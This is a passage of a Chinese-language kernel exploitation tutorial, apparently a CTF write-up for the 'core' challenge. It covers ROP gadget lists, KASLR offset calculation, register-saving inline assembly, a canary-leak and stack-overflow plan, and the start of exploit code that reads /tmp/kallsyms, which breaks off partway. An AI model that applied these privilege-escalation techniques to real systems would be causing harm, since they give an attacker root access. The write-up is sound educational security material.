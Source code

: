 从中咱们可以看到其中即我们所需要的gadget(实际上就是linux内核镜像所使用的汇编代码)，此时我们再通过linux自带的grep进行搜索，个人认为还是比较好用的，用`ropgadget`或者是`ropper`来说都可以，看各位师傅的喜好来.具体使用情况如下：
![](http://imgsrc.baidu.com/super/pic/item/b8389b504fc2d562427a9f2fa21190ef77c66c86.jpg)
以此手法获得两个主要函数的地址后，此刻若咱们在exp中获得这两个函数的实际地址，然后将两者相减即可得到KASLR的偏移地址。
自此咱们继续搜索别的gadget，我们此刻需要的gadget共有如下几个：
```
swapgs; popfq;  ret;
mov rdi, rax;  call rdx; 
pop rdx; ret;  
pop rdi; ret;   
pop rcx; ret; 
iretq
```

师傅们可以用上述方法自行寻找.

### 2. 自行构造返回状态
虽然咱们的**提权**是在内核态当中，但我们最终还是需要返回用户态来得到一个root权限的shell，所以当我们进行栈溢出rop之后还需要利用swapgs等保存在内核栈上的寄存器值返回到应得的位置，但是如何保证返回的时候不出错呢，对，那就只能在调用内核态的时候将即将保存的正确的寄存器值先保存在咱们自己申请的值里面，这样就方便咱们在rop链结尾填入他们实现返回不报错。既然涉及到了保存值，那我们就需要内嵌汇编代码来实现此功能，代码如下，这也可以视为一个通用代码；
```
size_t user_cs, user_ss,user_rflags,user_sp;

//int fd = 0;        // file pointer of process 'core'

void saveStatus(){
  __asm__("mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          );
  puts("\033[34m\033[1m Status has been saved . \033[0m");
}

```
大伙学到了内核pwn，那汇编功底自然不必说，我就不解释这段代码功能了。

### 3. 攻击思路
现在开始咱们的攻击思路思考，在上面介绍各个函数的时候我也稍微讲了点。我们所做的事主要如下：
> 1. 利用ioctl中的选项2.修改off为0x40
> 
> 2. 利用core_read,也就是ioctl中的选项1,可将局部变量v5的off偏移地址打印,经过调试可发现这里即为canary
>  
> 3. 当咱们打印了canary,现在即可进行栈溢出攻击了,但是溢出哪个栈呢,我们发现ioctl的第三个选项中调用的函数 `core_copy_func`,会将bss段上的name输入在栈上,输入的字节数取决于咱们传入的数字,并且此时他又整型溢出漏洞,好,就决定冤大头是他了
> 4. core.ko 所实现的系统调用write可以发现其中可以将我们传入的值写到bss段中的name上面,天助我也,所以咱们就可以在上面适当的构造rop链进行栈溢出了
   
大伙看到这里是不是觉得有点奇怪,欸,刚才不是说要泄露地址码,这兄弟是不是讲错了,就这?大家不要慌,我这正要讲解,从上面的init脚本中我们可以看到这一句:
```
cat /proc/kallsyms > /tmp/kallsyms
```
其中 /proc/kallsyms中包含了内核中所有用到的符号表,而处于用户态的我们是不能访问的,所以出题人贴心的将他输出到了/tmp/kallsyms中,这就使得我们在用户态也依然可以访问了,所以我们还得在exp中写一个文件遍历的功能,当然这对于学过系统编程的同学并不在话下,(可是我上这课在划水....)
这里贴出代码给大伙先看看
```
void get_function_address(){
        FILE* sym_table = fopen("/tmp/kallsyms", "r");        // including all address of kernel functions,just like the user model running address.
        if(sym_table == NULL){
                printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
                exit(1);
        }
        size_t addr = 0;
        char type[0x10];
```